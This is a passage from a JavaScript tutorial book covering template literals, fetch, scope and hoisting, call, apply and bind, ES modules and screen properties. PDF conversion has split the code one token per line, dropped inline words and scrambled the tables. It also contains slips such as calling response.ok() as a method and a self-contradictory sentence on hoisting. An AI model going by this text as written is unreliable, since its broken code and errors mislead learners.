+=

1

;

**return**

result

;

**case**

\'Int16\'

:

**var**

result

=

**this**

.

dataview

.

getInt16

(

**this**

.

index

,

**true**

)

;

**this**

.

index

+=

2

;

**return**

result

;

**case**

\'Uint16\'

:

**var**

result

=

**this**

.

dataview

.

getUint16

(

**this**

.

index

,

**true**

)

;

{width="7.486805555555556in"
height="5.360416666666667in"}

You can then create an iterator like this:

**var**

cursor

=

**new**

ArrayBufferCursor

(

arrayBuffer

)

;

You can use the hasNext to check if there\'s still items

**for**

(

;

cursor.

hasNext

(

)

;

)

{

*// There\'s still items to process*

}

You can use the next method to take the next value:

**var**

nextValue

=

cursor.

next

(

\'Float\'

)

;

With such an iterator, writing your own parser to process binary data
becomes pretty easy.

# Chapter 54: Template Literals

Template literals are a type of string literal that allows values to
be interpolated, and optionally the interpolation and construction
behaviour to be controlled using a \"tag\" function.

## Section 54.1: Basic interpolation and multiline strings

Template literals are a special type of string literal that can be
used instead of the standard \'\...\' or \"\...\". They are declared
by quoting the string with backticks instead of the standard single or
double quotes: \`\...\`.

  
  expression
  

  

Template literals can contain line breaks and arbitrary expressions
can be embedded using the \${} substitution syntax. By default, the
values of these substitution expressions are concatenated directly
into the string where they appear.

**const**

name

=

\"John\"

;

**const**

score

=

74

;

console.

log

(

\`Game Over

!

\$

{

name

}

\'s score was \${score \* 10}.\`);

Game Over

!

John

\'s score was 740.

## Section 54.2: Tagged strings

A function identified immediately before a template literal is used to
interpret it, in what is called a **tagged template literal**. The tag
function can return a string, but it can also return any other type of
value.

  
  \...substitutions
  

  

The first argument to the tag function, strings, is an Array of each
constant piece of the literal. The remaining arguments, , contain the
evaluated values of each \${} substitution expression.

**function**

settings

(

strings

,

\...

substitutions

)

{

**const**

result

=

**new**

Map

(

)

;

**for**

(

**let**

i

=

0

;

i

\<

substitutions.

length

;

i

++

)

{

result.

**set**

(

strings

\[

i

\]

.

trim

(

)

,

substitutions

\[

i

\]

)

;

}

**return**

result

;

}

**const**

remoteConfiguration

=

settings\`

label \$

{

\'Content\'

}

servers \$

{

2

\*

8

\+

1

}

hostname \$

{

location.

hostname

}

\`

;

Map

{

\"label\"

=\>

\"Content\"

,

\"servers\"

=\>

17

,

\"hostname\"

=\>

\"stackoverflow.com\"

}

  
  raw
  

  

The strings Array has a special . property referencing a parallel
Array of the same constant pieces of the template literal but
*exactly* as they appear in the source code, without any
backslash-escapes being replaced.

**function**

example

(

strings

,

\...

substitutions

)

{

console.

log

(

\'strings:\'

,

strings

)

;

console.

log

(

\'\...substitutions:\'

,

substitutions

)

;

}

example\`Hello \$

{

\'world\'

}

.\\n\\nHow are you

?

\`

;

strings

:

\[

\"Hello \"

,

\".

**\\n**

**\\n**

How are you?\"

,

raw

:

\[

\"Hello \"

,

\".

**\\\\**

n

**\\\\**

nHow are you?\"

\]

\]

substitutions

:

\[

\"world\"

\]

## Section 54.3: Raw strings

  -
  String                                     .       raw
  - - 

  -

The tag function can be used with template literals to access a
version of their contents without interpreting any backslash escape
sequences.

  
  String   .   raw\`\\n\`   will contain a backslash and the lowercase letter n,    **\\n**
                            while \`\\n\` or \'                                     
      

  

\' would contain a single newline character instead.

**const**

patternString

=

String

.

raw

\`Welcome

,

(

\\w

\+

)

!

\`

;

**const**

pattern

=

**new**

RegExp

(

patternString

)

;

**const**

message

=

\"Welcome, John!\"

;

pattern.

exec

(

message

)

;

\[

\"Welcome, John!\"

,

\"John\"

\]

## Section 54.4: Templating HTML With Template Strings

You can create an HTML\`\...\` template string tag function to
automatically encodes interpolated values. (This requires that
interpolated values are only used as text, and **may not be safe if
interpolated values are used in code** such as scripts or styles.)

{width="7.486805555555556in"
height="5.666666666666667in"}

\<

ul

\>

\$

{

names.

map

(

name

=\>

HTML\`

\<

li

\>

\$

{

name

}

\<

/

li

\>

\`

)

}

\<

/

ul

\>

\`

;

## Section 54.5: Introduction

Template Literals act like strings with special features. They are
enclosed by by the back-tick \`\` and can be spanned across multiple
lines.
>
Template Literals can contain embedded expressions too. These
expressions are indicated by a \$ sign and curly braces {}

*//A single line Template Literal*

**var**

aLiteral

=

\`single line string data\`

;

*//Template Literal that spans across lines*

**var**

anotherLiteral

=

\`string data that spans

across multiple lines of code\`

;

*//Template Literal with an embedded expression*

**var**

x

=

2

;

**var**

y

=

3

;

**var**

theTotal

=

\`The total is \$

{

x

\+

y

}

\`

;

*// Contains \"The total is 5\"*

*//Comparison of a string and a template literal*

**var**

aString

=

\"single line string data\"

console.

log

(

aString

===

aLiteral

)

*//Returns true*

There are many other features of String Literals such as Tagged
Template Literals and Raw property. These are demonstrated in other
examples.

# Chapter 55: Fetch

+++
|      | **Details**                                               |
|  **Opt |                                                             |
| ions** |                                                             |
+========+=============================================================+
| method | The HTTP method to use for the request. ex: GET, POST, PUT, |
|        | DELETE, HEAD. Defaults to GET.                              |
+++
| h      | A Headers object containing additional HTTP headers to      |
| eaders | include in the request.                                     |
+++
| body   | The request payload, can be a string or a FormData object.  |
|        | Defaults to **undefined**                                   |
+++

  
  no-cache
  

  

cache The caching mode. **default**, reload,

  
  referrer                The referrer of the request.
   

  

  
  no-cors       ,   same-origin           . Defaults to         no-cors
  -    -

  

  
  same-origin
  

  

mode cors, . credentialsomit, , include. Defaults to omit. redirect
follow, error, manual. Defaults to follow. integrity Associated
integrity metadata. Defaults to empty string.

## Section 55.1: Getting JSON data

*// get some data from stackoverflow*

fetch

(

\"https://api.stackexchange.com/2.2/questions/featured?order=desc&sort=activity&site=stackover

flow\"

)

.

then

(

resp

=\>

resp.

json

(

)

)

.

then

(

json

=\>

console.

log

(

json

)

)

.

**catch**

(

err

=\>

console.

log

(

err

)

)

;

## Section 55.2: Set Request Headers

fetch

(

\'/example.json\'

,

{

headers

:

**new**

Headers

(

{

\'Accept\'

:

\'text/plain\'

,

\'X-Your-Custom-Header\'

:

\'example value\'

}

)

}

)

;

## Section 55.3: POST Data

Posting form data

fetch

(

\`

/

example

/

submit\`

,

{

method

:

\'POST\'

,

body

:

**new**

FormData

(

document.

getElementById

(

\'example-form\'

)

)

}

)

;

Posting JSON data

fetch

(

\`

/

example

/

submit.

json

\`

,

{

method

:

\'POST\'

,

body

:

JSON.

stringify

(

{

email

:

document.

getElementById

(

\'example-email\'

)

.

value

,

comment

:

document.

getElementById

(

\'example-comment\'

)

.

value

}

)

}

)

;

## Section 55.4: Send cookies

The fetch function does not send cookies by default. There are two
possible ways to send cookies:

1.  Only send cookies if the URL is on the same origin as the calling
    script.

fetch

(

\'/login\'

,

{

credentials

:

\'same-origin\'

}

)

2.  Always send cookies, even for cross-origin calls.

fetch

(

\'https://otherdomain.com/login\'

,

{

credentials

:

\'include\'

}

)

## Section 55.5: GlobalFetch

The [GlobalFetch](https://fetch.spec.whatwg.org/#globalfetch)
interface exposes the fetch function, which can be used to request
resources.

fetch

(

\'/path/to/resource.json\'

)

.

then

(

response

=\>

{

**if**

(

!

response.

ok

(

)

)

{

**throw**

**new**

Error

(

\"Request failed!\"

)

;

}

**return**

response.

json

(

)

;

}

)

.

then

(

json

=\>

{

console.

log

(

json

)

;

}

)

;

The resolved value is a
[Response](https://fetch.spec.whatwg.org/#response-class) Object. This
Object contains the body of the response, as well as its status and
headers.

## Section 55.6: Using Fetch to Display Questions from the Stack Overflow API

**const**

url

=

\'http://api.stackexchange.com/2.2/questions?site=stackoverflow&tagged=javascript\'

;

**const**

questionList

=

document.

createElement

(

\'ul\'

)

;

document.

body

.

appendChild

(

questionList

)

;

**const**

responseData

=

fetch

(

url

)

.

then

(

response

=\>

response.

json

(

)

)

;

responseData.

then

(

(

{

items

,

has_more

,

quota_max

,

quota_remaining

}

)

=\>

{

**for**

(

**const**

{

title

,

score

,

owner

,

link

,

answer_count

}

of items

)

{

**const**

listItem

=

document.

createElement

(

\'li\'

)

;

questionList.

appendChild

(

listItem

)

;

**const**

a

=

document.

createElement

(

\'a\'

)

;

listItem.

appendChild

(

a

)

;

a\.

href

=

link

;

a\.

textContent

=

\`

\[

\$

{

score

}

\]

\$

{

title

}

(

by \$

{

owner.

display_name

\|\|

\'somebody\'

}

)

\`

}

}

)

;

# Chapter 56: Scope

## Section 56.1: Closures

When a function is declared, variables in the context of its
*declaration* are captured in its scope. For example, in the code
below, the variable x is bound to a value in the outer scope, and then
the reference to x is captured in the context of bar:

**var**

x

=

4

;

*// declaration in outer scope*

**function**

bar

(

)

{

console.

log

(

x

)

;

*// outer scope is captured on declaration*

}

bar

(

)

;

*// prints 4 to console*

Sample output:

4

This concept of \"capturing\" scope is interesting because we can use
and modify variables from an outer scope even after the outer scope
exits. For example, consider the following:

**function**

foo

(

)

{

**var**

x

=

4

;

*// declaration in outer scope*

**function**

bar

(

)

{

console.

log

(

x

)

;

*// outer scope is captured on declaration*

}

**return**

bar

;

*// x goes out of scope after foo returns*

}

**var**

barWithX

=

foo

(

)

;

barWithX

(

)

;

*// we can still access x*

Sample output:

4

In the above example, when foo is called, its context is captured in
the function bar. So even after it returns, bar can still access and
modify the variable x. The function foo, whose context is captured in
another function, is said to be a *closure*.
>
**Private data**
>
This lets us do some interesting things, such as defining \"private\"
variables that are visible only to a specific function or set of
functions. A contrived (but popular) example:

**function**

makeCounter

(

)

{

**var**

counter

=

0

;

**return**

{

value

:

**function**

(

)

{

**return**

counter

;

}

,

increment

:

**function**

(

)

{

counter

++

;

}

}

;

}

**var**

a

=

makeCounter

(

)

;

**var**

b

=

makeCounter

(

)

;

a\.

increment

(

)

;

console.

log

(

a\.

value

(

)

)

;

console.

log

(

b\.

value

(

)

)

;

Sample output:

1

0

  -
  makeCounter   () is called, a snapshot of the context of that       makeCounter
                function is saved. All code inside                    
  - - -

  -

When ()

  
  makeCounter
  

  

will use that snapshot in their execution. Two calls of () will thus
create two different snapshots, with their own copy of counter.
>
**Immediately-invoked function expressions (IIFE)**
>
Closures are also used to prevent global namespace pollution, often
through the use of immediately-invoked function expressions.
>
*Immediately-invoked function expressions* (or, perhaps more
intuitively, *self-executing anonymous functions*) are essentially
closures that are called right after declaration. The general idea
with IIFE\'s is to invoke the side-effect of creating a separate
context that is accessible only to the code within the IIFE.
>
Suppose we want to be able to reference jQuery with \$. Consider the
naive method, without using an IIFE:

**var**

\$

=

jQuery

;

*// we\'ve just polluted the global namespace by assigning window.\$ to
jQuery*

In the following example, an IIFE is used to ensure that the \$ is
bound to jQuery only in the context created by the closure:

(

**function**

(

\$

)

{

*// \$ is assigned to jQuery here*

}

)

(

jQuery

)

;

*// but window.\$ binding doesn\'t exist, so no pollution*

See [the canonical answer on
Stackoverflow](http://stackoverflow.com/a/111111/2209007) for more
information on closures.

## Section 56.2: Hoisting

**What is hoisting?**
>
**Hoisting** is a mechanism which moves all variable and function
declarations to the top of their scope. However, variable assignments
still happen where they originally were.
>
For example, consider the following code:

console.

log

(

foo

)

;

*//*

→

*undefined*

**var**

foo

=

42

;

console.

log

(

foo

)

;

*//*

→

*42*

The above code is the same as:

**var**

foo

;

*//*

→

*Hoisted variable declaration*

console.

log

(

foo

)

;

*//*

→

*undefined*

foo

=

42

;

*//*

→

*variable assignment remains in the same place*

console.

log

(

foo

)

;

*//*

→

*42*

Note that due to hoisting the above **undefined** is not the same as
the not defined resulting from running:

console.

log

(

foo

)

;

*//*

→

*foo is not defined*

A similar principle applies to functions. When functions are assigned
to a variable (i.e. a [function
expression](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Operators/function)),
the variable declaration is hoisted while the assignment remains in
the same place. The following two code snippets are equivalent.

console.

log

(

foo

(

2

,

3

)

)

;

*//*

→

*foo is not a function*

**var**

foo

=

**function**

(

a

,

b

)

{

**return**

a

\*

b

;

}

**var**

foo

;

console.

log

(

foo

(

2

,

3

)

)

;

*//*

→

*foo is not a function*

foo

=

**function**

(

a

,

b

)

{

**return**

a

\*

b

;

}

When declaring [function
statements](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Statements/function),
a different scenario occurs. Unlike function statements, function
declarations are hoisted to the top of their scope. Consider the
following code:

console.

log

(

foo

(

2

,

3

)

)

;

*//*

→

*6*

**function**

foo

(

a

,

b

)

{

**return**

a

\*

b

;

}

The above code is the same as the next code snippet due to hoisting:

**function**

foo

(

a

,

b

)

{

**return**

a

\*

b

;

}

console.

log

(

foo

(

2

,

3

)

)

;

*//*

→

*6*

Here are some examples of what is and what isn\'t hoisting:

*// Valid code:*

foo

(

)

;

**function**

foo

(

)

{

}

*// Invalid code:*

bar

(

)

;

*//*

→

*TypeError: bar is not a function*

**var**

bar

=

**function**

(

)

{

}

;

*// Valid code:*

foo

(

)

;

**function**

foo

(

)

{

bar

(

)

;

}

**function**

bar

(

)

{

}

*// Invalid code:*

foo

(

)

;

**function**

foo

(

)

{

bar

(

)

;

*//*

→

*TypeError: bar is not a function*

}

**var**

bar

=

**function**

(

)

{

}

;

*// (E) valid:*

**function**

foo

(

)

{

bar

(

)

;

}

**var**

bar

=

**function**

(

)

{

}

;

foo

(

)

;

**Limitations of Hoisting**
>
Initializing a variable can not be Hoisted or In simple JavaScript
Hoists declarations not initialization.
>
For example: The below scripts will give different outputs.

**var**

x

=

2

;

**var**

y

=

4

;

alert

(

x

\+

y

)

;

This will give you an output of 6. But this\...

**var**

x

=

2

;

alert

(

x

\+

y

)

;

**var**

y

=

4

;

This will give you an output of NaN. Since we are initializing the
value of y, the JavaScript Hoisting is not happening, so the y value
will be undefined. The JavaScript will consider that y is not yet
declared.
>
So the second example is same as of below.

**var**

x

=

2

;

**var**

y

;

alert

(

x

\+

y

)

;

y

=

4

;

This will give you an output of NaN.

{width="4.090277777777778in"
height="2.1534722222222222in"}

## Section 56.3: Dierence between var and let

*(Note: All examples using **let** are also valid for **const**)*

**var** is available in all versions of JavaScript, while **let** and
**const** are part of ECMAScript 6 and [only available in some newer
browsers](http://caniuse.com/#search=block%20level). **var** is scoped
to the containing function or the global space, depending when it is
declared:

**var**

x

=

4

;

*// global scope*

**function**

DoThings

(

)

{

**var**

x

=

7

;

*// function scope*

console.

log

(

x

)

;

}

console.

log

(

x

)

;

*// \>\4*

DoThings

(

)

;

*// \>\7*

console.

log

(

x

)

;

*// \>\4*

That means it \"escapes\" if statements and all similar block
constructs:

**var**

x

=

4

;

**if**

(

**true**

)

{

**var**

x

=

7

;

}

console.

log

(

x

)

;

*// \>\7*

**for**

(

**var**

i

=

0

;

i

\<

4

;

i

++

)

{

**var**

j

=

10

;

}

console.

log

(

i

)

;

*// \>\4*

console.

log

(

j

)

;

*// \>\10*

By comparison,

**let**

is block scoped:

**let**

x

=

4

;

**if**

(

**true**

)

{

**let**

x

=

7

;

console.

log

(

x

)

;

*// \>\7*

}

console.

log

(

x

)

;

*// \>\4*

**for**

(

**let**

i

=

0

;

i

\<

4

;

i

++

)

{

**let**

j

=

10

;

}

console.

log

(

i

)

;

*// \>\\"ReferenceError: i is not defined\"*

console.

log

(

j

)

;

*// \>\\"ReferenceError: j is not defined\"*

Note that i and j are only declared in the **for** loop and are
therefore undeclared outside of it.
>
There are several other crucial differences:
>
**Global variable declaration**
>
In the top scope (outside any functions and blocks), **var**
declarations put an element in the global object. **let** does not:

**var**

x

=

4

;

**let**

y

=

7

;

console.

log

(

**this**

.

x

)

;

*// \>\4*

console.

log

(

**this**

.

y

)

;

*// \>\undefined*

**Re-declaration**
>
Declaring a variable twice using **var** doesn\'t produce an error
(even though it\'s equivalent to declaring it once):

**var**

x

=

4

;

**var**

x

=

7

;

With **let**, this produces an error:

**let**

x

=

4

;

**let**

x

=

7

;

TypeError: Identifier

x

has already been declared

The same is true when

y

is declared with

**var**

:

**var**

y

=

4

;

**let**

y

=

7

;

TypeError: Identifier

y

has already been declared

However variables declared with let can be reused (not re-declared) in
a nested block

**let**

i

=

5

;

{

**let**

i

=

6

;

console.

log

(

i

)

;

*// \>\6*

}

console.

log

(

i

)

;

*// \>\5*

Within the block the outer i can be accessed, but if the within block
has a **let** declaration for i, the outer i can not be accessed and
will throw a ReferenceError if used before the second is declared.

**let**

i

=

5

;

{

i

=

6

;

*// outer i is unavailable within the Temporal Dead Zone*

**let**

i

;

}

ReferenceError: i is not defined

**Hoisting**
>
Variables declared both with **var** and **let** are hoisted. The
difference is that a variable declared with **var** can be referenced
before its own assignment, since it gets automatically assigned (with
**undefined** as its value), but **let** cannotit specifically
requires the variable to be declared before being invoked:

console.

log

(

x

)

;

*// \>\undefined*

console.

log

(

y

)

;

*// \>\\"ReferenceError: \`y\` is not defined\"*

*//OR \>\\"ReferenceError: can\'t access lexical declaration \`y\`
before initialization\"*

**var**

x

=

4

;

**let**

y

=

7

;

The area between the start of a block and a **let** or **const**
declaration is known as the [Temporal Dead
Zone](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Statements/let#Temporal_dead_zone_and_errors_with_let),
and any references to the variable in this area will cause a
ReferenceError. This happens even if the [variable is assigned before
being
declared](http://stackoverflow.com/questions/41451181/does-let-override-a-global-declaration-and-throws-a-referenceerror):

y

=

7

;

*// \>\\"ReferenceError: \`y\` is not defined\"*

**let**

y

;

In non-strict-mode, assigning a value to a variable without any
declaration, automatically declares the variable in the global scope.
In this case, instead of y being automatically declared in the global
scope, **let** reserves the variable\'s name (y) and does not allow
any access or assignment to it before the line where it is
declared/initialized.

## Section 56.4: Apply and Call syntax and invocation

The apply and call methods in every function allow it to provide a
custom value for **this**.

**function**

print

(

)

{

console.

log

(

**this**

.

toPrint

)

;

}

print.

apply

(

{

toPrint

:

\"Foo\"

}

)

;

*// \>\\"Foo\"*

print.

call

(

{

toPrint

:

\"Foo\"

}

)

;

*// \>\\"Foo\"*

You might notice that the syntax for both the invocations used above
are the same. i.e. The signature looks similar.
>
But there is a small difference in their usage, since we are dealing
with functions and changing their scopes, we still need to maintain
the original arguments passed to the function. Both apply and call
support passing arguments to the target function as follows:

**function**

speak

(

)

{

**var**

sentences

=

Array

.

**prototype**

.

slice

.

call

(

arguments

)

;

console.

log

(

**this**

.

name

\+

\": \"

\+

sentences

)

;

}

**var**

person

=

{

name

:

\"Sunny\"

}

;

speak.

apply

(

person

,

\[

\"I\"

,

\"Code\"

,

\"Startups\"

\]

)

;

*// \>\\"Sunny: I Code Startups\"*

speak.

call

(

person

,

\"I\"

,

\"\<3\"

,

\"Javascript\"

)

;

*// \>\\"Sunny: I \<3 Javascript\"*

Notice that apply allows you to pass an Array or the arguments object
(array-like) as the list of arguments, whereas, call needs you to pass
each argument separately.
>
These two methods give you the freedom to get as fancy as you want,
like implementing a poor version of the ECMAScript\'s native bind to
create a function that will always be called as a method of an object
from an original function.

**function**

bind

(

func

,

obj

)

{

**return**

**function**

(

)

{

**return**

func.

apply

(

obj

,

Array

.

**prototype**

.

slice

.

call

(

arguments

,

1

)

)

;

}

}

**var**

obj

=

{

name

:

\"Foo\"

}

;

**function**

print

(

)

{

console.

log

(

**this**

.

name

)

;

}

printObj

=

bind

(

print

,

obj

)

;

printObj

(

)

;

This will log

\"Foo\"

The bind function has a lot going on

1.  obj will be used as the value of **this**

2.  forward the arguments to the function

3.  and then return the value

## Section 56.5: Arrow function invocation

Version ≥ 6

When using arrow functions **this** takes the value from the enclosing
execution context\'s **this** (that is, **this** in arrow functions
has lexical scope rather than the usual dynamic scope). In global code
(code that doesn\'t belong to any function) it would be the global
object. And it keeps that way, even if you invoke the function
declared with the arrow notation from any of the others methods here
described.

**var**

globalThis

=

**this**

;

*//\"window\" in a browser, or \"global\" in Node.js*

**var**

foo

=

(

(

)

=\>

**this**

)

;

console.

log

(

foo

(

)

===

globalThis

)

;

*//true*

**var**

obj

=

{

name

:

\"Foo\"

}

;

console.

log

(

foo.

call

(

obj

)

===

globalThis

)

;

*//true*

See how **this** inherits the context rather than referring to the
object the method was called on.

**var**

globalThis

=

**this**

;

**var**

obj

=

{

withoutArrow

:

**function**

(

)

{

**return**

**this**

;

}

,

withArrow

:

(

)

=\>

**this**

}

;

console.

log

(

obj.

withoutArrow

(

)

===

obj

)

;

*//true*

console.

log

(

obj.

withArrow

(

)

===

globalThis

)

;

*//true*

**var**

fn

=

obj.

withoutArrow

;

*//no longer calling withoutArrow as a method*

**var**

fn2

=

obj.

withArrow

;

console.

log

(

fn

(

)

===

globalThis

)

;

*//true*

console.

log

(

fn2

(

)

===

globalThis

)

;

*//true*

## Section 56.6: Bound invocation

The bind method of every function allows you to create new version of
that function with the context strictly bound to a specific object. It
is especially useful to force a function to be called as a method of
an object.

**var**

obj

=

{

foo

:

\'bar\'

}

;

**function**

foo

(

)

{

**return**

**this**

.

foo

;

}

fooObj

=

foo.

bind

(

obj

)

;

fooObj

(

)

;

This will log:

bar

## Section 56.7: Method invocation

Invoking a function as a method of an object the value of **this**
will be that object.

**var**

obj

=

{

name

:

\"Foo\"

,

print

:

**function**

(

)

{

console.

log

(

**this**

.

name

)

}

}

We can now invoke print as a method of obj. **this** will be obj

obj.

print

(

)

;

This will thus log:

Foo

## Section 56.8: Anonymous invocation

Invoking a function as an anonymous function, **this** will be the
global object (self in the browser).

**function**

func

(

)

{

**return**

**this**

;

}

func

(

)

===

window

;

*// true*

Version = 5

In ECMAScript 5\'s strict mode, **this** will be **undefined** if the
function is invoked anonymously.

(

**function**

(

)

{

\"use strict\"

;

func

(

)

;

}

(

)

)

This will output
>
**undefined**

## Section 56.9: Constructor invocation

When a function is invoked as a constructor with the **new** keyword
**this** takes the value of the object being constructed

**function**

Obj

(

name

)

{

**this**

.

name

=

name

;

}

**var**

obj

=

**new**

Obj

(

\"Foo\"

)

;

console.

log

(

obj

)

;

This will log

{ name: \"Foo\" }

## Section 56.10: Using let in loops instead of var (click handlers example)

Let\'s say we need to add a button for each piece of loadedData array
(for instance, each button should be a slider showing the data; for
the sake of simplicity, we\'ll just alert a message). One may try
something like this:
>
**for**(**var** i = 0; i \< loadedData.length; i++)
jQuery(\"#container\").append(\"\<a
class=\'button\'\>\"+loadedData\[i\].label+\"\</a\>\")
>
.children().last() *// now let\'s attach a handler to the button which
is a child*
>
.on(\"click\",**function**() { alert(loadedData\[i\].content); });
>
But instead of alerting, each button will cause the

TypeError: loadedData\[i\] is undefined

  
  i ==
  

  

error. This is because the scope of i is the global scope (or a
function scope) and after the loop, 3. What we need is not to
\"remember the state of i\". This can be done using **let**:
>
**for**(**let** i = 0; i \< loadedData.length; i++)
jQuery(\"#container\").append(\"\<a
class=\'button\'\>\"+loadedData\[i\].label+\"\</a\>\")
>
.children().last() *// now let\'s attach a handler to the button which
is a child*
>
.on(\"click\",**function**() { alert(loadedData\[i\].content); }); An
example of loadedData to be tested with this code:
>
**var** loadedData = \[ { label:\"apple\", content:\"green and round\"
},
>
{ label:\"blackberry\", content:\"small black or blue\" },
>
{ label:\"pineapple\", content:\"weird stuff.. difficult to explain
the shape\" } \];
>
[A fiddle to illustrate this](https://jsfiddle.net/fvgqu7a2/2/)

# Chapter 57: Modules

## Section 57.1: Defining a module

In ECMAScript 6, when using the module syntax (import/export), each
file becomes its own module with a private namespace. Top-level
functions and variables do not pollute the global namespace. To expose
functions, classes, and variables for other modules to import, you can
use the export keyword.

*// not exported*

**function**

somethingPrivate

(

)

{

console.

log

(

\'TOP SECRET\'

)

}

export

**const**

PI

=

3.14

;

export

**function**

doSomething

(

)

{

console.

log

(

\'Hello from a module!\'

)

}

**function**

doSomethingElse

(

)

{

console.

log

(

\"Something else\"

)

}

export

{

doSomethingElse

}

export

class

MyClass

{

test

(

)

{

}

}

  
  **\<script**
  

  

Note: ES5 JavaScript files loaded via **\>** tags will remain the same
when not using import/export.
>
Only the values which are explicitly exported will be available
outside of the module. Everything else can be considered private or
inaccessible.

  
  my           \-    module.js
   - 

  

Importing this module would yield (assuming the previous code block is
in ):
>
import \* as myModule from \'./my-module.js\';
>
myModule.PI; *// 3.14* myModule.doSomething(); *// \'Hello from a
module!\'* myModule.doSomethingElse(); *// \'Something else\'* **new**
myModule.MyClass(); *// an instance of MyClass*
>
myModule.somethingPrivate(); *// This would fail since
somethingPrivate was not exported*

## Section 57.2: Default exports

In addition to named imports, you can provide a default export.

*// circle.js*

export

**const**

PI

=

3.14

;

export

**default**

**function**

area

(

radius

)

{

**return**

PI

\*

radius

\*

radius

;

}

You can use a simplified syntax to import the default export.

import

circleArea from

\'./circle\'

;

console.

log

(

circleArea

(

4

)

)

;

Note that a *default export* is implicitly equivalent to a named
export with the name **default**, and the imported binding (circleArea
above) is simply an alias. The previous module can be written like

import

{

**default**

as circleArea

}

from

\'./circle\'

;

console.

log

(

circleArea

(

4

)

)

;

You can only have one default export per module. The name of the
default export can be omitted.

*// named export: must have a name*

export

**const**

PI

=

3.14

;

*// default export: name is not required*

export

**default**

**function**

(

radius

)

{

**return**

PI

\*

radius

\*

radius

;

}

## Section 57.3: Importing named members from another module

  
  test.js
  

  

Given that the module from the Defining a Module section exists in the
file , you can import from that module and use its exported members:

import

{

doSomething

,

MyClass

,

PI

}

from

\'./test\'

doSomething

(

)

**const**

mine

=

**new**

MyClass

(

)

mine.

test

(

)

console.

log

(

PI

)

  
  somethingPrivate
  

  

The () method was not exported from the test module, so attempting to
import it will fail:

import

{

somethingPrivate

}

from

\'./test\'

somethingPrivate

(

)

## Section 57.4: Importing an entire module

In addition to importing named members from a module or a module\'s
default export, you can also import all members into a namespace
binding.

import

\*

as test from

\'./test\'

test.

doSomething

(

)

All exported members are now available on the test variable.
Non-exported members are not available, just as they are not available
with named member imports.
>
**Note:** The path to the module \'./test\' is resolved by the
[*loader*](https://whatwg.github.io/loader/) and is not covered by the
ECMAScript specification - this could be a string to any resource (a
path - relative or absolute - on a filesystem, a URL to a network
resource, or any other string identifier).

## Section 57.5: Importing named members with aliases

Sometimes you may encounter members that have really long member
names, such as

  
  thisIsWayTooLongOfAName()
  

  

. In this case, you can import the member and give it a shorter name to
use in your

current module:

import

{

thisIsWayTooLongOfAName as shortName

}

from

\'module\'

shortName

(

)

You can import multiple long member names like this:

import

{

thisIsWayTooLongOfAName as shortName

,

thisIsAnotherLongNameThatShouldNotBeUsed as

otherName

}

from

\'module\'

shortName

(

)

console.

log

(

otherName

)

And finally, you can mix import aliases with the normal member import:

import

{

thisIsWayTooLongOfAName as shortName

,

PI

}

from

\'module\'

shortName

(

)

console.

log

(

PI

)

## Section 57.6: Importing with side eects

Sometimes you have a module that you only want to import so its
top-level code gets run. This is useful for polyfills, other globals,
or configuration that only runs once when your module is imported.

  
  test.js
  

  

Given a file named :

console.

log

(

\'Initializing\...\'

)

You can use it like this:

import

\'./test\'

This example will print Initializing\... to the console.

## Section 57.7: Exporting multiple named members

**const**

namedMember1

=

\...

**const**

namedMember2

=

\...

**const**

namedMember3

=

\...

export

{

namedMember1

,

namedMember2

,

namedMember3

}

# Chapter 58: Screen

## Section 58.1: Getting the screen resolution

To get the physical size of the screen (including window chrome and
menubar/launcher):

**var**

width

=

window.

screen

.

width

,

height

=

window.

screen

.

height

;

## Section 58.2: Getting the "available" area of the screen

To get the "available" area of the screen (i.e. not including any bars
on the edges of the screen, but including window chrome and other
windows:

**var**

availableArea

=

{

pos

:

{

x

:

window.

screen

.

availLeft

,

y

:

window.

screen

.

availTop

}

,

size

:

{

width

:

window.

screen

.

availWidth

,

height

:

window.

screen

.

availHeight

}

}

;

## Section 58.3: Page width and height

To get current page width and height (for any browser), e.g. when
programming responsiveness:
>
**function** pageWidth() { **return** window.innerWidth != **null**?
window.innerWidth : document.documentElement &&
document.documentElement.clientWidth ?
document.documentElement.clientWidth : document.body != **null** ?
document.body.clientWidth : **null**; }
>
**function** pageHeight() { **return** window.innerHeight != **null**?
window.innerHeight : document.documentElement &&
document.documentElement.clientHeight ?
document.documentElement.clientHeight : document.body != **null**?
document.body.clientHeight : **null**; }

## Section 58.4: Window innerWidth and innerHeight Properties

Get the window height and width

**var**

width

=

window.

innerWidth

**var**

height

=

window.

innerHeight

## Section 58.5: Getting color information about the screen

To determine the color and pixel depths of the screen:

**var**

pixelDepth

=

window.

